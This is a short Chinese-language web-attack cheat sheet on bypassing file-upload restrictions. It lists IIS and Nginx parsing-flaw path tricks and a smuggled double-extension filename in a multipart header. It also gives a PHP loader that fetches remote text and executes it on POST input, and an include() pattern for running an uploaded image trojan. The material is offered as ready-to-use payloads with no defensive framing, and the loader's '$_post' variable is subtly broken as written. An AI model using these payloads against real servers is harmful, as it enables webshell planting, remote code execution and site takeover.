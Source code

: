 #### IIS 解析漏洞

```
IIS6.0 在解析 asp 格式的时候有两个解析漏洞，一个是如果目录名包含".asp"字符串，
那么这个目录下所有的文件都会按照 asp 去解析，另一个是只要文件名中含有".asp;"
会优先按 asp 来解析
IIS7.0/7.5 是对 php 解析时有一个类似于 Nginx 的解析漏洞，对任意文件名只要在 URL
后面追加上字符串"/任意文件名.php"就会按照 php 的方式去解析； 
```

#### Nginx 解析漏洞

```
解析： (任意文件名)/(任意文件名).php | (任意文件名)%00.php
描述：目前 Nginx 主要有这两种漏洞，一个是对任意文件名，在后面添加/任意文件名.php
的解析漏洞，比如原本文件名是 test.jpg，可以添加为 test.jpg/x.php 进行解析攻击。
还有一种是对低版本的 Nginx 可以在任意文件名后面添加%00.php 进行解析攻击。 
```

#### 解析漏洞

```
Content-Disposition: form-data; name="file";  filename=php.php;.jpg 
```

### 前端限制绕过

```
1.使用 BURP 抓包修改后重放
2.或者使用浏览器中元素审查，修改允许或禁止上传文件类型。 
```

### 下载绕过

远程下载文件绕过

```
<?php
$str = file_get_contents('http://127.0.0.1/ian.txt');
$str($_post['ian']);
?> 
```

### 文件包含绕过

```
上传图片木马
$x=$_GET['x'];
include($x);
访问:http://www.xxxx.com/news.php?x=xxxxxx.jpg 
```

